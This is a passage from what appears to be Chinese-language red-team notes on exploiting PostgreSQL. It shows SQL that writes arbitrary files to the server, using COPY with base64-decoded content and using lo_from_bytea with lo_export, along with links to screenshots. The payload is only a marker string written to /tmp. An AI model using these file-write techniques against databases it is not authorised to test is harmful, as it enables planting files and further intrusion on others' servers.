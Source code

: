 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/2.png)

也可以 base64 一下
```sql
COPY (select convert_from(decode('ZmZmZmZmZmYweA==','base64'),'utf-8')) to '/tmp/success.txt';
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/16.png)

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/17.png)

**方法2 lo_export**

lo_export 采用大对象 OID 和路径，将文件写入路径。

```sql
select lo_from_bytea(12349,'ffffffff0x');
SELECT lo_export(12349, '/tmp/ffffffff0x.txt');

-- base64 的形式
select lo_from_bytea(12350,decode('ZmZmZmZmZmYweA==','base64'));
SELECT lo_export(12350, '/tmp/ffffffff0x.txt');
```
